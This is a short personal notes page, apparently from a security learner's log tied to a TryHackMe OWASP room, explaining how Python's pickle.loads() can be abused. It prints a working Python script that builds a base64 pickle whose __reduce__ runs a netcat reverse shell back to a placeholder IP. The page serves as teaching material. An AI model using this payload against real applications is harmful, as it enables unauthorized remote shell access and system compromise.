 # Exploiting Python

## Python Pickles

One way to attack Python webapps is to exploit the pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like [`object.__reduce__()`](https://docs.python.org/3/library/pickle.html#object.__reduce__) are run.

For example, the [TryHackMe: OWASP Top 10 room](../log/2021-10-06-tryhackme-complete-beginner.md) has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (LOCAL_IP gets replaced by your machine’s IP):

```python
import pickle		
import sys		
import base64		

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc LOCAL_IP 4444 > /tmp/f'		

class rce(object):		
    def __reduce__(self):		
        import os		
        return (os.system,(command,))		

print(base64.b64encode(pickle.dumps(rce())))
```

What’s getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there’s our reverse shell!

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 8, 2021
